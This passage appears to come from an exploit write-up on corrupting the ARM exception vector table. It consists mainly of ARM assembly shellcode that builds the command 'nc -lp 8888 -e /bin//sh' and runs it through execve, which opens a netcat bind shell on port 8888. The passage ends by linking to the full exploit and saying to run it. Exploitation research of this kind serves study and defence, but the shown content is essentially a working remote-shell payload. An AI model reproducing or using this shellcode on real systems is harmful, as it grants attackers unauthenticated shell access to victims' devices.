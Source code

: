 ```nasm
    mov     r4, sp

    ldr     r5, =0x2d20636e
    ldr     r6, =0x3820706c
    ldr     r7, =0x20383838     @ nc -lp 8888 -e /bin//sh
    ldr     r8, =0x2f20652d
    ldr     r9, =0x2f6e6962
    ldr     r10, =0x68732f2f

    eor     r11, r11, r11
    push    {r5-r11}
    mov     r5, sp
    push    {r2}

    eor     r6, r6, r6
    push    {r0,r4,r5, r6}
    mov     r1, sp
    mov     r7, #11
    swi     0x0

    mov     r0, #99
    mov     r7, #1
    swi     0x0

```

You can find the complete code for the vulnerable module and the exploit [here](https://github.com/acama/arm-evt/tree/master/remote_example). Run the exploit:  
![Remote PoC](/images/corrupting_arm_evt/remote_poc.png)  
